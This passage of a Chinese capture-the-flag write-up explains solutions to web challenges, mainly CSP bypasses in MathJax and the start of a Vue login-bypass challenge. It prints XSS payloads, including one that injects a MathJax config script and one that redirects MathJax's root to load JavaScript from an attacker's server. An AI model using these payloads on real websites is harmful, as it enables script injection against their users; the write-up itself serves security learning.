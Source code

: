 ```html
```

很容易看出, 这段js有一个奇怪的地方在 `MathJax.js` 被加载之前, 是不会有 `MathJax` 这个对象的, 更不会有 `Hub` 属性, 这个js执行必然是失败的, 但是却没有报错, 简单调试就会发现, `MathJax` 直接 eval 了这个配置文件, 所以调用里面的js的时机是在加载 `MathJax.js` 时. <br />所以只需要构造一个 `type="text/x-mathjax-config"` 的 `script` 标签就可以绕过CSP执行任意的js代码.<br />payload:

```javascript
name=</script><script type%3d"text/x-mathjax-config">YOU_PAYLOAD
```

<a name="math-is-fun2"></a>
### math-is-fun2

> 出题人：u2400
> 解题人数：14
> 最终分数：606


这道题的思路是发现mathjax的功能大多都是动态加载的, 需要什么功能就再去加载什么功能, 但是每一次加载后续的静态文件的地址总是加载mathjax.js的域名下的某个目录.<br />调试发现mathjax会用正则匹配的方式获取第一次加载自己的地址, 放入root属性中, 后续的js也会从这个地址加载, 所以只要可以修改这个root属性便可以引入任意ip的静态文件. 由于 CSP 中有放置 `'strict-dynamic'` 标志. 所以可以直接使用自己的VPS引入外部的js, 将payload放在自己VPS根目录下的config文件夹中, 命名为 `TeX-MML-AM_CHTML.js` <br />payload:

```javascript
name=%0aMathJax[%27root%27]%3d"http://xxx.xxx.xxx.xxx"
```

<a name="easy-web"></a>
### easy-web

> 出题人：xxx
> 解题人数：18
> 最终分数：540


<a name="0a1f310f"></a>
#### 考点：

1. Vue 调试
1. AWS Lambda + S3

<a name="5952cd50"></a>
#### 第一步：

页面为一个登陆页面，尝试登陆无果。

查看页面源码，Vue 的页面，分析源码。

2个路由信息：

![Untitled-4552f2cf-9bdb-45e9-8116-7f17cffc1188.png](https://cdn.nlark.com/yuque/0/2019/png/298354/1561975647278-2f7d397e-d7ba-4fe2-b5ad-49487d213998.png#align=left&display=inline&height=724&name=Untitled-4552f2cf-9bdb-45e9-8116-7f17cffc1188.png&originHeight=724&originWidth=1962&size=188974&status=done&width=1962)

![Untitled-c2fc8a77-29b9-4257-9210-84376d082d82.png](https://cdn.nlark.com/yuque/0/2019/png/298354/1561975663199-6f730e6b-9372-4733-83e3-1e709a671cfc.png#align=left&display=inline&height=624&name=Untitled-c2fc8a77-29b9-4257-9210-84376d082d82.png&originHeight=624&originWidth=1686&size=176978&status=done&width=1686)

可以看到存在  `/main` 路由，同时需要登陆验证，验证方式是读取 `store.state` 的 login 值。

可以有多种方式绕过，随意修改一处进行绕过：
